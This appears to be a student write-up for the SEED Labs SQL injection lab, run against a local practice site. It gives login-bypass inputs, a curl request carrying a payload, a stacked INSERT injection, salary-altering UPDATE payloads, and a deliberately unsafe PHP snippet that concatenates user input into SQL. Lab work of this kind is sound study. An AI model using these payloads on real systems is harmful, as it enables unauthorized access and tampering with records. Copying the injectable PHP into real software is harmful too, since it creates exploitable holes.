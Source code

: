 # SQL-INJECTION
### Task 1
Login in MYSQL:
    
    
    mysql -u root -pseedubuntu
    
    mysql> use Users;
    
    mysql> show tables;
    
//Use such a SQL query

		select * from credential where Name='Alice';
    
![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

###Task 2:
Task 2.1
        
        .USERNAME: "Admin' #"
	      
        .PASSWORD: "xyz" (here is password is optional)

//We will result in SQL Query
		    
        SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		    
        FROM credential
		    
        WHERE name='Admin' #' && password='xyz'

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.1.png)

Task 2.2 
//1- Write Code on Terminator in Seed Lab:
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
    
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.2.png)

Task 2.3
//Inject Statment to append a row to current database:

    INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
    
//After row inserted, go to browser and input as:
	
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Bilal','237492') #";
	
    .PASSWORD: "" (blank field);
  
  
![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.3.png)

//PHP's mysqli extension, involes mysqli::query API to handle SQL statement, doesn't support for multiple queries with in the same run. Of course, the design of this API attributes to concern of SQL injection.


###Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

Task 3.1
  
  --> Login as Username= 'Alice' && Password = xyz, 
	
  --> Then edit the link to browser 
  
  http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	
  --> Update Phone Number as ', Salary=1000000 and save.

Task 3.2

  --> Login as Username= 'Boby' #' and then open edit profile;
 
  --> Update Phone Number: ',Salary=0 and remaining unchanges;
  

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%203.2.png)

//Login as Alice
  Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  Update Phone Number: ', Salary=1 where name='Boby' #
  
Task 3.3
//We're login as Boby but change password of Alice
  
```
  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit(); 
